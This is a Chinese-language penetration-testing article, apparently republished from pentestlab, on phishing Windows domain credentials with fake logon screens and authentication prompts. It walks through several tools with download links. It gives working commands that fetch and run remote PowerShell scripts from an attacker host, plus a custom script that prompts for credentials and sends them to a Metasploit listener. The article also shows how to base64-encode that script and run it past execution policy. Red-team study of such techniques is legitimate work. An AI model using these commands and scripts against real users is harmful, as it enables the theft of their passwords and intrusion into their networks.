# 内网系统凭证钓鱼攻击

**作者：pentestlab  
原文链接：[https://mp.weixin.qq.com/s/hGYeXAzrE0B5Xk4UpE9P4g](https://mp.weixin.qq.com/s/hGYeXAzrE0B5Xk4UpE9P4g)**

在内网进行横向移动提权的时候，需要获取大量用户的域账号信息，通常的方式是抓取目标机器上的登录哈希和密码，除了这种方式，还可以通过网络钓鱼的方式，欺骗用户使用凭证输入到我们伪造的页面上。

在 Windows 系统环境中，存在许多需要用户进行身份认证的场景，比如 Outlook 登录、提升授权（用户账户控制）或者锁屏需要解锁时，通过模拟这类场景，很容易让用户上当并且不易被发现。

### FakeLogonScreen

FakeLogonScreen 是用 C# 编写的应用程序，可以模拟 Windows 的登录屏幕来欺骗用户输入，从而盗取凭证，下载地址：

> [https://github.com/bitsadmin/fakelogonscreen](https://github.com/bitsadmin/fakelogonscreen)

在目标的 meterpreter 会话中，指定该程序：



该工具能够显示当前配置的背景，从而减少有安全意识的用户发现此恶意操作的风险：



当用户在假登录屏幕上输入密码时，他会在 AD 或本地执行验证，从而保证密码是正确的，用户输入时会将结果打印在控制台：



除此之外，还会将结果保存在本地的文件中，可以用下面的命令查看：

> type C:\\Users\\pentestlab.PENTESTLAB\\AppData\\Local\\Microsoft\\user.db



### SharpLocker

这个程序也能实现上面的功能，下载地址：

> [https://github.com/Pickfordmatt/SharpLocker](https://github.com/Pickfordmatt/SharpLocker)



每次点击都将在控制台上显示，直到用户的密码输入完成：



### CredsLeaker

Windows 安全输入提示经常出现，因为在企业环境中，应用程序会定期要求用户进行身份认证，Microsoft outlook 就是一个经常要求身份验证的产品，CredsLeaker 就可以模拟 windows 的安全提示窗口，要求用户输入凭证，在启动之前需要将必要文件上传至 web 服务器，该程序会将结果发送至远程服务器，然后远程服务器将收到的结果保存在文本文件中，可以将 Powershell 的命令放在 bat 文件中执行，下载地址：

> [https://github.com/Dviros/CredsLeaker](https://github.com/Dviros/CredsLeaker)



在执行 BAT 文件之前，需要将服务器地址添加到相应的 powershell、php 文件中，执行之后在目标系统上显示的窗口如下：



只有当提供的凭据正确时，弹出窗口才会消失。域名、主机名、用户名和密码都会写入到下面的位置：

> /var/www/html/creds.txt



### Invoke-LoginPrompt

这个脚本的功能和使用方法与 CredsLeaker 类似，下载地址：

> [https://github.com/enigma0x3/Invoke-LoginPrompt](https://github.com/enigma0x3/Invoke-LoginPrompt)

凭据将显示在控制台中：

> powershell.exe -ep Bypass -c IEX ((New-Object Net.WebClient).DownloadString('http://10.0.0.13/tmp/Invoke-LoginPrompt.ps1')); Invoke-LoginPrompt



### Invoke-CredentialsPhish

这个是 Nishang 框架中的一个脚本，可用于创建虚假输入提示符，来收集窗口凭据：



输入提示符会携带一条说明需要输入凭据的提示，安全意识比较强的很容易发现问题，并不适用所有企业环境：



当用户的凭据输入时，结果将显示在控制台：



脚本也可以通过远程调用：

> powershell.exe -ep Bypass -c IEX ((New-Object Net.WebClient).DownloadString('http://10.0.0.13/tmp/Invoke-CredentialsPhish/ps1')); Invoke-CredentialsPhish



### 自定义脚本

首先使用 metasploit 中的 http\_basic 模块设置一个需要基本身份验证的 HTTP 服务器：

> use auxiliary/server/capture/http\_basic set URIPATH /

使用下面的 powershell 代码创建输入提示符窗口，并将凭据通过 HTTP 请求发送至远程 Metasploit 服务器，从而获取凭证：

```bash
$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName + "\" + [Environment]::UserName,[Environment]::UserDomainName);[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true};
$wc = new-object net.webclient;
$wc.Headers.Add("User-Agent","Wget/1.9+cvs-stable (Red Hat modified)");
$wc.Proxy = [System.Net.WebRequest]::DefaultWebProxy;
$wc.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials;
$wc.credentials = new-object system.net.networkcredential($cred.username, $cred.getnetworkcredential().password, '');
$result = $wc.downloadstring('http://10.0.0.13/');
```

为了方便操作，需要将以上代码转为 base64，转换之前需要使用 UTF-16LE 字符编码，然后再进行 Base64：

> cat popup.txt | iconv -t UTF-16LE cat popup.txt | iconv -t UTF-16LE | base64 -w0



使用下面的命令将 base64 的 payload 执行：

> powershell.exe -ep bypass -enc



Metasploit 获得的结果如下：



### phish\_windows\_credentials

这个是 Metasploit 框架中的一个模块，可以指定创建特定进程时弹出输入提示窗口，必须制定当前已经连接的 Meterpreter 会话：

> use post/windows/gather/phish\_windows\_credentials set SESSION 3 set PROCESS \* run



通配符 \* 指示模块监视系统上运行的所有进程，只要有新的进程启动，就会弹出输入提示框：



输入提示框作为该进程需要认证作为提示展示给用户，要求输入凭证，如果设置的进程不合理，很容易被人发现异常：



当用户输入凭据时，捕获到凭证将显示在控制台：



模块也可以配置为仅用于创建特定进程：



### 参考文献

> [https://attack.mitre.org/techniques/T1141/](https://attack.mitre.org/techniques/T1141/)
> 
